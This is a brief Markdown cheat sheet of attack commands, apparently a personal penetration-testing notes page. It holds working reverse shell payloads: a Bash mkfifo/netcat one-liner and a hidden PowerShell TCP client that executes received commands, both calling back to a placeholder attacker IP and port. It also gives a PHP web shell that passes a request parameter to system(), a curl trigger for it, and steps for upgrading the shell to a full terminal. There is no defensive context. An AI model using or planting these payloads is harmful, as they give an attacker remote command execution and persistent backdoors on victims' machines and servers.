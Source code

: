 # Shell stuff

## Reverse Shell ([More Info](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md))
- netcat
```
nc -lvnp 1234
```
Payloads:
- Bash (Linux)
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {MY IP} {PORT} >/tmp/f
```
- PowerShell (Windows)
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("{MY IP}",{PORT});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Web Shell 
- web browser/curl
```
Curl http://{YOURWEBSITE}/payload.php?cmd={COMMANDS}
```
Payloads:
```
<?php system($_REQUEST["cmd"]); ?>
```

## Getting interactive shell:
- In netcat
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
> press `Ctrl +Z`
```
stty raw -echo
fg
```
> press `Enter`
